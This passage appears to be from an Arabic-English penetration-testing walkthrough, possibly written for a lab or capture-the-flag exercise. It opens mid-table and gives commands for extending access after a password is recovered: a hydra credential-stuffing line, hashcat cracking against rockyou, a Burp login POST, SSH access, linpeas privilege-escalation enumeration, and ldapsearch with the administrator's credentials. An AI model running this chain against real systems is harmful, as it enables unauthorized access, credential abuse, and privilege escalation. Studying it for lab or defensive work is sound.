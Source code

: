 |-------------------------------|-----------------------------------------------------------------------------------|---------------------------------------------------------------------------------------------|-----------------------------------------------------------------------------------|
| استخراج بيانات إضافية        | Browse `/dashboard`, `/users` after login                                         | Explores system for sensitive data                                                         | بعد تسجيل الدخول الناجح.                                                        |
| رفع الصلاحيات               | `sudo -l` or `./linpeas.sh`                                                       | Checks for privilege escalation opportunities                                               | إذا كان الحساب محدودًا.                                                          |
| Credential Stuffing            | `hydra -l administrator@domain.com -p MYKE https-post-form ...`                    | Tests credentials on external services                                                     | عند الاشتباه في إعادة استخدام كلمات المرور.                                    |
| استخراج كائنات LDAP          | `ldapsearch -x -H ldap://target_ip -D "cn=administrator,dc=domain,dc=com" -w MYKE` | Queries LDAP directory for additional objects                                               | عند وجود وصول إلى واجهة LDAP.                                                   |

---

## مثال عملي باستخدام Burp Suite والسكربتات
1. **إعداد Burp Suite**:
   - اضبط الوكيل إلى `127.0.0.1:8080`.
   - اختبر كلمة المرور يدويًا:
     ```
     POST /login HTTP/1.1
     Host: example.com
     Content-Type: application/x-www-form-urlencoded

     username=administrator&password=MYKE
     ```
   - تحقق من الاستجابة (مثل رمز 302 أو نص "Welcome").
2. **تأكيد كلمة المرور**:
   - استخدم `test_password.py` لاختبار `MYKE` تلقائيًا.
   - شغّل: `python3 test_password.py`
   - إذا نجح، انتقل إلى الخطوات التالية.
3. **كسر هاش (إذا لزم الأمر)**:
   - إذا كانت القيمة `{SHA}2cM6...`، احفظها في `hash.txt`.
   - شغّل:
     ```
     hashcat -m 100 hash.txt /path/to/rockyou.txt
     ```
   - استخدم النص العادي الناتج (مثل `MYKE`) في تسجيل الدخول.
4. **اختبار خدمات أخرى**:
   - استخدم `test_services.py` لاختبار الويب، SSH، وIMAP.
   - شغّل: `python3 test_services.py`
   - جرب يدويًا إذا لزم الأمر (مثل `ssh administrator@target_ip`).
5. **توسيع الهجوم**:
   - بعد تسجيل الدخول، تصفح `/admin/users` في المتصفح.
   - إذا كنت في خادم عبر SSH، شغّل:
     ```
     ./linpeas.sh
     ```
   - استخدم `ldapsearch` إذا كان لديك وصول إلى LDAP:
     ```
     ldapsearch -x -H ldap://target_ip -D "cn=administrator,dc=domain,dc=com" -w MYKE
     ```

---

